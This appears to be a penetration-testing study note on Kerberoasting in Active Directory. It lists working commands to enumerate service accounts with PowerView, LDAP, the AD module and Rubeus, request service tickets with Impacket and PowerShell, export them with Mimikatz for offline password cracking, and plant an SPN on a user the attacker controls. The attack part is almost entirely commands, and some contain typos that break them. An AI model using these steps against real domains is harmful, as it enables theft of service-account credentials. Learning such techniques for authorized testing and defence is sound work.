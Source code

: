 #powerview #powershell #ldap #rubeus #mimikatz #impacket 
- ST can be requested by any user for any service if it's [SPN](TechLexicon/Penetration%20Testing/Exploitation/Active%20Directory/AD%20Concepts/Services.md#SPN) is registered in the domain.
- STs are encrypted with the service account which runs the service.
- Hence, we can try to crack the password of the service user account.
- In case of managed service accounts, the password is of 120 characters and changes every month, hence it is not possible to crack their password.
- However, some services are run with normal user accounts, managed by people, that can have weak password.
- Kerberoast involves service running under regular user accounts. We can request STs for the services and crack password locally.
We can query for users with SPNs using
- Powerview
```powershell
Get-NetUser -SPN
```
- LDAP
```ladp
(&(samAccountType=805306368)(servicePrincipalName=*))
```
- AD-RSAT (Active Directory module)
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrinicipalName
```
- Rubeus
```powershell
# list kerberos stats
.\Rubeus.exe kerberoast /stats

# Look of kerberoastable account that only supports RC4_HMAC
.\Rubues.exe kerberoast /stat /rc4opsec
```
### Requesting STs
- Impacket's `GetUserSPNs.py` script can be used to query users with SPN and request STs for the service.
```bash
# This will search for SPNs, request STs for the same using supplied credentials and same the STs in "kerberoast.hash"
python GetUserSPNs.py mydomain.local/a.drdragon:Password!! -dc-ip <ip> -outputfile kerberoast.hash
```
- Requesting a TGS using powrshell
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQL/mssqldomain.mydomain.local"
# This will add the kerberos key in memeory, and can be verified with klist
klist
# The key can be extracted with mimikatz
kerberos::list /export
```
- Powerview
```powershell
Request-SPNTicket
```
- Rubeus
```powershell
.\Rubeus kerberoast /nowrap [/user:<username>] /simple

# for rc4_hmac account
.\Rubeus kerberoast /nowrap [/user:<username>] /simple /rc4opsec
```
---
If we have `GenericAll` or `GenericWrite` over a user, we can set a random SPN for that user, and request ST for it. This is opsec friendly as resetting a user password is noisy. SPN for a user can be set using (SPN should be unique for the forest): 
```powershell
# Powerview
Set-DomainOjbect -Identity support30user -Set @{serviceprincipalname = 'dcorp/whatever'}

# Ad module
Set-ADUser -Identity support30user -ServicePrincipalNames @{Add='dcorp/whatever'}
```